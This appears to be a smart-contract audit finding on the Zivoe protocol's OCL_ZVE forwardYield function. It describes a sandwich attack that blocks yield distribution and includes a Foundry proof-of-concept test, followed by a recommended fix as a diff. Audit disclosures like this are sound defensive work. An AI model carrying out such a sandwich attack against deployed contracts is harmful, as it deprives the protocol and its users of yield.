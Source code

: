 Glorious Midnight Snake

medium

# The yield rewards obtained though `OCL_ZVE` could be prevented from being distributed

## Summary
[`OCL_ZVE#forwardYield()`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L287-L305) could be vulnerable to sandwich attacks, potentially preventing the distribution of yield rewards.
## Vulnerability Detail
The governance of the Zivoe protocol can deploy their capital into Uniswap/Sushi for yield rewards through `OCL_ZVE`.
The yield reward generated in `OCL_ZVE` will be distributed once every 30 days by calling `OCL_ZVE#forwardYield()`.
```solidity
    function forwardYield() external {
        if (IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender())) {
            require(
                block.timestamp > nextYieldDistribution - 12 hours, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution - 12 hours"
            );
        }
        else {
            require(
                block.timestamp > nextYieldDistribution, 
                "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution"
            );
        }

@>      (uint256 amount, uint256 lp) = fetchBasis();
@>      if (amount > basis) { _forwardYield(amount, lp); }
        (basis,) = fetchBasis();
        nextYieldDistribution += 30 days;
    }
```
- `basis` is used to track the total amount of `pairAsset` deposited into `$ZVE/pairAsset` pool.
- `amount` is the current amount of `pairAsset` that `OCL_ZVE` can redeem with all their lp tokens.
- The yield reward can only be distributed through `_forwardYield(amount, lp)` when `amount` > `basis`

As we can see, a malicious user can execute a sandwich attack on `OCL_ZVE#forwardYield()`, potentially causing `_forwardYield()` to be skipped.

Copy below codes into [`Test_OCL_ZVE.sol`](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Lockers/Test_OCL_ZVE.sol) and run `forge test --rpc-url RPC-URL --match-test test_OCL_ZVE_SUSHI_forwardYield_no_reward`:
```solidity
    function test_OCL_ZVE_SUSHI_forwardYield_no_reward() public {
        mint("DAI", address(this), 100e18);
        ZVE.approve(OCL_ZVE_SUSHI_DAI.router(), 100e18);
        IERC20(DAI).approve(OCL_ZVE_SUSHI_DAI.router(), 100e18);
        //@audit-info Add liquidity for DAI-ZVE pool 
        IUniswapV2Router01(OCL_ZVE_SUSHI_DAI.router()).addLiquidity(DAI, address(ZVE), 100e18, 100e18, 100e18, 100e18, address(this), block.timestamp);

        address[] memory assets = new address[](2);
        assets[0] = DAI;
        assets[1] = address(ZVE);
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = amounts[1] = 100e18;
        //@audit-info DAO add liquidity for DAI-ZVE pool 
        assert(god.try_pushMulti(address(DAO), address(OCL_ZVE_SUSHI_DAI), assets, amounts, new bytes[](2)));
        address lpToken = ISushiFactory(OCL_ZVE_SUSHI_DAI.factory()).getPair(DAI, address(ZVE));
        uint256 preLpAmount = IERC20(lpToken).balanceOf(address(OCL_ZVE_SUSHI_DAI));
        //@audit-info swap DAI for ZVE
        buyZVE_Sushi(100e18, DAI);
        hevm.warp(OCL_ZVE_SUSHI_DAI.nextYieldDistribution() + 1 seconds);
        (uint amount, ) = OCL_ZVE_SUSHI_DAI.fetchBasis();
        uint basis = OCL_ZVE_SUSHI_DAI.basis();
        //@audit-info 50e18 of DAI can be distributed now
        assert(amount == 150e18);
        assert(basis  == 100e18);
        uint preBalanceZVE = ZVE.balanceOf(address(this));
        uint preBalanceDAI = IERC20(DAI).balanceOf(address(this));
        //@audit-info attacker sell $ZVE for DAI before forwardYield()
        sellZVE_Sushi(67e18, DAI);
        OCL_ZVE_SUSHI_DAI.forwardYield();
        uint postBalanceDAI = IERC20(DAI).balanceOf(address(this));
        //@audit-info attacker buy $ZVE with previous received DAI after forwardYield()
        buyZVE_Sushi(postBalanceDAI-preBalanceDAI, DAI);
        uint postBalanceZVE = ZVE.balanceOf(address(this));
        uint postLpAmount = IERC20(lpToken).balanceOf(address(OCL_ZVE_SUSHI_DAI));
        //@audit-info the amount of lp in OCL_ZVE_SUSHI_DAI doesn't change, none of DAI was distributed
        assert(postLpAmount == preLpAmount);
        //@audit-info it only cost the attacker no more than 0.3 $ZVE
        assert(preBalanceZVE - postBalanceZVE < 0.3e18);
    }
```
As we can see, In the above scenario, it only cost the attacker no more than 0.3 $ZVE to prevent 50 DAI from being distributed, which could be mistakenly returned to the DAO in the future, or can not be distributed until next distribution time.
## Impact
 The yield rewards obtained though `OCL_ZVE` can be prevented from distribution.
## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/lockers/OCL/OCL_ZVE.sol#L287-L305
## Tool used

Manual Review

## Recommendation
Only keepers can access `OCL_ZVE#forwardYield()` since they will submit transactions via flashbots:
```diff
    function forwardYield() external {
+       require(
+           IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender()),
+           "!IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender())"
+       );
+       require(
+           block.timestamp > nextYieldDistribution - 12 hours, 
+           "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution - 12 hours"
+       );
-       if (IZivoeGlobals_OCL_ZVE(GBL).isKeeper(_msgSender())) {
-           require(
-               block.timestamp > nextYieldDistribution - 12 hours, 
-               "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution - 12 hours"
-           );
-       }
-       else {
-           require(
-               block.timestamp > nextYieldDistribution, 
-               "OCL_ZVE::forwardYield() block.timestamp <= nextYieldDistribution"
-           );
-       }

        (uint256 amount, uint256 lp) = fetchBasis();
        if (amount > basis) { _forwardYield(amount, lp); }
        (basis,) = fetchBasis();
        nextYieldDistribution += 30 days;
    }
```